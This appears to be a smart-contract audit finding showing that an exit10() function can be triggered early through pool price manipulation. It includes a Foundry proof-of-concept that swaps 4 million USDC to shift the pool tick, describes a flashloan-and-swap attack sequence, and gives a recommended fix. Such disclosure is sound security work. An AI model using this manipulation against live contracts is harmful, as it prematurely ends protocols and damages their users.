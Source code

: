 ```solidity
function testManipulate() public {
    console2.log("block number:", block.number);
    (uint160 sqrtPriceX96Init, int24 tickInit, , , , , ) = pool.slot0();
    // Take USDC from a large holder instead of flashloan for simplicity
    address atck = address(0xEbe80f029b1c02862B9E8a70a7e5317C06F62Cae); 
    uint value = 4_000_000 * 1e6;
    vm.startPrank(atck);
    IERC20(pool.token1()).approve(address(router), value);
    ISwapRouter.ExactInputSingleParams memory params = ISwapRouter.ExactInputSingleParams(
        pool.token1(), // USDC
        pool.token0(), // WETH
        500,
        atck,
        block.timestamp,
        value,
        0, 
        0
    );
    router.exactInputSingle(params);
    vm.stopPrank();
    (uint160 sqrtPriceX96Fin, int24 tickFin, , , , , ) = pool.slot0();
    console2.log("tickInit:", tickInit);
    console2.log("tickFin:", tickFin);
}
```
which outputs:
```
Logs:
  block number: 95682224
  tickInit: -201109
  tickFin: -102138
```
Full PoC file here: https://gist.github.com/bahurum/9daac43a30cd67fe02453a58a52645b5

At any time, an attacker can take a flashloan, swap USDC to ETH, trigger `exit10()` and swap ETH back to USDC on the pool. Note that this may not yield any profit for the attacker (who would have to pay at least for flash loan fees), but the result is that the protocol ends sooner than expected.

#### Impact 

Medium. Attacker can trigger `exit10()` sooner than expected at some cost. This will skip all the phases of the protocol and end the protocol.

#### Recommendation

In `_requireOutOfTickRange()`, consider checking that the current tick is not too far from the tick at the beginning of the block. This will make `exit10()` revert if the price has been manipulated prior to calling it.
```diff
function _requireOutOfTickRange() internal view {
+ int24 blockStartTick = OracleLibrary.getBlockStartingTickAndLiquidity(POOL);
+ int24 currentTick = _currentTick();
  if (TOKEN_IN > TOKEN_OUT) {
-   require(_currentTick() <= TICK_LOWER, 'EXIT10: Current Tick not below TICK_LOWER');
+   require(currentTick <= TICK_LOWER, 'EXIT10: Current Tick not below TICK_LOWER');
  } else {
-   require(_currentTick() >= TICK_UPPER, 'EXIT10: Current Tick not above TICK_UPPER');
+   require(currentTick >= TICK_UPPER, 'EXIT10: Current Tick not above TICK_UPPER');
  }
+ int24 tickDiff = blockStartTick > currentTick ? blockStartTick - currentTick : currentTick - blockStartTick; 
+ require(tickDiff < 100); // 100 ticks is about 1% in price difference
}
```
